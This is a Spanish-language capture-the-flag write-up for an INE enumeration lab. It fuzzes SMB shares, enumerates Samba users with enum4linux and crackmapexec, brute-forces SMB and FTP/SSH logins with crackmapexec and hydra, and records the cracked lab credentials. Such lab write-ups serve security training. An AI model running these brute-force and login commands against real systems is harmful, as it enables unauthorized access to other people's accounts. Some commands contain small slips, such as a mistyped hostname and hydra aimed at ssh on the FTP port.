# Enumeration CTF 1

- FLAG1

Nos dan una wordlists de directorios compartidos */root/Desktop/wordlists/shares.txt*
Como no podemos conectarnos a ningún recurso de los que aparecen en el SMB expuesto vamos a intentar fuzzear recursos dentro del servidor
- Montamos un script



Funciona para *pubfiles*



- FLAG2

Se nos dice que uno de los usuarios de samba tiene una mala contraseña (débil), su recurso compartido privado tiene el mismo nombre que su usuario

Vamos a enumerar usuarios en la máquina linux
```bash
enum4linux target.ine.local
```



josh bob nancy alice

Tendremos que  usar fuerza bruta para comprobar los recursos /target.ine.local/x con el usuario x
```bash
smbclient //target.ine.local/usuario -U usuario
```

Vamos a usar **crackmapexec**
- Podremos enumerar usuarios de la misma forma
```bash
crackmapexec smb target.ine.local --users
```



Guardamos los usuarios
```bash
crackmapexec smb target.ine.local --users | grep 'ine.local\\' | awk '{print $2}' FS='\\' > samba_users.txt
```

Ahora bruteforcearemos los usuarios encontrados con
```bash
crackmapexec smb target.ine.local -u samba_users.txt -p unix_passwords.txt
```



josh:purple

```bash
smbclient //target.ini.local/josh -U josh
```

purple



- FLAG3

Se nos da una pista en la flag anterior



```bash
ftp target.ine.local -p 5554
```

**ashley**, **alice** and **amanda** to change their weak passwords immediately



Intentaremos bruteforcear la contraseña de alguno de los usuarios con la wordlist */unix_passwords.txt* dada
```bash
hydra -L ftp_users.txt -P unix_passwords.txt -s5554 ssh://target.ine.local -V -f
```



alice:pretty

Accedemos al ftp
```bash
ftp target.ine.local -p 5554
```



- FLAG4

```bash
ssh alice@target.ine.local
```


